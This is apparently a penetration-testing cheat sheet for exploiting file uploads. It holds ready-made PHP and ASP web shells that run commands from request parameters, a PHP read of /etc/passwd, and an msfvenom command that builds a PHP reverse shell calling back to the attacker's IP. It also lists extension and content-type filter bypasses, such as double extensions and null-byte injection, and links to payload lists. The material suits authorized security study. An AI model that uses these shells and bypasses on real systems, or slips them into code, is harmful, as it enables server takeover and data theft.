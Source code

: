 ### Web Shells

```php
<?php file_get_contents('/etc/passwd'); ?>
### Basic PHP File Read

<?php system('hostname'); ?>
### Basic PHP Command Execution

<?php system($_REQUEST['cmd']); ?>
### Basic PHP Web Shell
```

```asp
<% eval request('cmd') %>
### Basic ASP Web Shell
```

```bash
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
### Generate PHP reverse shell
```

### Web/Reverse Shells

- **[PHP Web Shell](https://github.com/Arrexel/phpbash)**: Basic web shell for PHP
- [**PHP Reverse Shell**](https://github.com/pentestmonkey/php-reverse-shell): Reverse shell for PHP
- [**Web/Reverse Shells**](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells): List of common web and reverse shells

### Bypasses

```bash
[CTRL+SHIFT+C]
### Client-Side Bypass: Toggle Page Inspector
```

#### Blacklist Bypass

- `shell.phtml` ### Uncommon Extension
- `shell.pHp` ### Case Manipulation

#### Whitelist Bypass

- `shell.jpg.php` ### Double Extension
- `shell.php.jpg` ### Reverse Double Extension
- `%20, %0a, %00, %0d0a, /, .\, ., …` ### Character Injection - Before/After Extension

### Content/Type Bypass

- **[PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)**: List of PHP extensions
- [ **ASP Extensions**](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP): List of ASP extensions
- **[Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)**: List of web extensions
- [**Web Content-Types**](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt): List of web content-types
- **[Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)**: List of all content-types
- [**File Signatures**](https://en.wikipedia.org/wiki/List_of_file_signatures): List of file signatures/magic bytes

### Limited Uploads

| Potential Attack | File Types              |
| ---------------- | ----------------------- |
| XSS              | HTML, JS, SVG, GIF      |
| XXE/SSRF         | XML, SVG, PDF, PPT, DOC |
| DoS              | ZIP, JPG, PNG           |